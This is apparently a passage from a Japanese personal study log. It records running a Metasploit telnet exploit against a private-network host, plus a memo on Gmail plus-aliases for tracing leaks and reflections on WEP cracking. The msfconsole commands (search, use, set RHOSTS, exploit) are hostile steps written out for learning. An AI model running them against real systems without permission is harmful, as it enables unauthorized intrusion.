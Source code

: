 2. msfconsole
```
> msfconsole
> search Linux telnet
```

<img src="./img/ss12.png" width="600">

```
> use 4
> set RHOSTS 192.168.11.4
> exploit
```

<img src="./img/ss13.png" width="600">

よくわからない...

<br>

## メモ
- [ ] 量子もつれ
* gmailのエイリアス機能
```
hoge@gmail.com を持っているとする
登録時 hoge+fuga@gmail.com とする(fugaはなんでもいい, fugaはサービス名など)
届くのは hoge+fuga@gmail.com
漏れたのは fuga からだとわかる
```

<br>

## 感想
kaliを使ってwep(自分のWiFi)のクラックはした事があったが、現在でははぼ使われていないため実用性は無かった。
しかし今回は特定の攻撃方法ではなく、出ている脆弱性を元にした攻撃という事で色んな物に対して現在でも（脆弱性があれば）有効だと知った。WEPが簡単に解けるというのは随分前に分かった事で手軽に出来るのは分かるが、現在でも有効な攻撃も手軽だと知りとても驚いた。
